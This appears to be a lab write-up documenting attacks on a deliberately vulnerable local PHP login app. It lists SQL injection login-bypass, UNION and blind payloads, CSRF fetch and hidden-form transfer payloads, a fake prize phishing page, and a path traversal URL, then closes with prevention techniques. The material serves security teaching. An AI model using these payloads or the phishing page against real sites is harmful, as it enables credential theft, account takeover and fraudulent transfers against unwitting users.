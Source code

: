 
## 1. SQL INJECTION VECTORS (MariaDB Compatible)

---

### a) **Login Bypass**

**Payload Example 1**

- **Email**: " OR ""="' OR 1=1 -- 
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='' OR 1=1 -- ' AND pass='anything'
```

---
**MariaDB-Specific Variant**

- **Email**: `admin@example.com' #`
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='admin' # ' AND pass='anything'
```

Note: `#` is a valid comment character in MariaDB (like `--` ), and it ignores the rest of the line.

---

### b) **UNION-Based Attack**

**Payload**:

- **Search**: `' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- `
    

**Injected Query**:

```sql
SELECT id, name, info FROM products WHERE name='' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- '
```

This would display all users’ credentials in the search results (if column counts and types match).

---

### c) **Blind SQL Injection**

**Payload**:

- **Email**: `admin@example.com' AND (SELECT SUBSTRING(pass,1,1) FROM users WHERE id=1)='a`
    

**Injected Query**:

```sql
SELECT * FROM users 
WHERE email='admin@example.com' AND (SELECT SUBSTRING(pass,1,1) FROM users WHERE id=1)='a'
```

This doesn't reveal errors or results directly, but with repeated guessing, the attacker can infer the password one character at a time.

---

## 2. CSRF Attack Vectors

### JavaScript `fetch()` Method (IMG Tag Alternative)

This uses `fetch()` to simulate a form submission directly in JavaScript:

```html
<script>
fetch("http://localhost/login_app/dashboard.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "to_id=7&amount=10000000&transfer=Transfer+Money"
});
</script>
```

> **Note:** While `fetch()` doesn't work cross-origin by default (due to CORS), it's still useful for same-origin CSRF or if the target lacks proper protections.
---

3. Social Engineering
Fake Prize Page with Hidden CSRF Attack

This is an example of a phishing page designed to trick users into clicking a button under the pretense of winning a prize. In reality, clicking the button submits a hidden form that performs a CSRF attack — transferring money without the user’s knowledge.
Malicious HTML Overview:

<form id="csrf-form" action="http://localhost/login_app/dashboard.php" method="POST" target="csrf-frame">
    <input type="hidden" name="to_id" value="2">
    <input type="hidden" name="amount" value="500">
    <input type="hidden" name="transfer" value="Transfer Money">
</form>

<button onclick="document.getElementById('csrf-form').submit();">
    Claim Your Prize Now!
</button>

How it works:

    The page is styled to look legitimate (e.g., prize claim, congratulatory message).

    The user is encouraged to click a big, friendly button to "claim a prize".

    Clicking the button submits a hidden form, which:

        Sends a POST request to the target site (dashboard.php)

        Transfers 500 units to user ID 2, impersonating the victim.

    The request is executed silently inside an iframe, giving no indication to the victim.

    If the victim is already logged in to the vulnerable site (localhost/login_app), the action is performed using their session.

This is a classic CSRF combined with social engineering, where the attacker uses deceptive UI to exploit a user’s trust and active session.

---
## 4. Path Traversal Exploitation

### Reading Sensitive Files

Use directory traversal sequences to access files outside the intended path:

```
http://localhost/login_app/../passwords.txt
```
Let's say that we have a passwords.txt file outside of our website. Using the "../" syntax we escape the site's scope and retreive any files outside of the folder. So ../passwords.txt will get us the passwords.txt file outside of the folder.

This can expose sensitive configuration files, credentials, or other private data if the server doesn’t sanitize the `path` input.

---

## 5. Prevention Techniques

>  For educational purposes — here’s how to fix or mitigate the common vulnerabilities:

---

### a) **SQL Injection**

-  Use **prepared statements** with **parameterized queries**
    
-  Apply strict **input validation** (whitelisting where possible)
    
-  Follow the **principle of least privilege** (minimal DB rights)
    

---

### b) **Cross-Site Request Forgery (CSRF)**

-  Add **anti-CSRF tokens** in forms and validate them server-side
    
-  Use `SameSite` attribute for cookies (`SameSite=Strict` or `Lax`)
    
-  Validate the **Referer** or **Origin** header for critical actions
    
---

### c) **Path Traversal**

-  **Validate and sanitize** all user-controlled file paths
    
-  Use **server-side path whitelisting** or mapping
    
-  Enforce **access control** checks for file operations
    

---

### d) **Authentication & Session Management**

-  Implement proper **session validation** and timeouts
    
-  Use strong **password hashing** (e.g., bcrypt, Argon2) with salting
    
-  Apply **account lockout** or throttling to prevent brute-force attacks
    
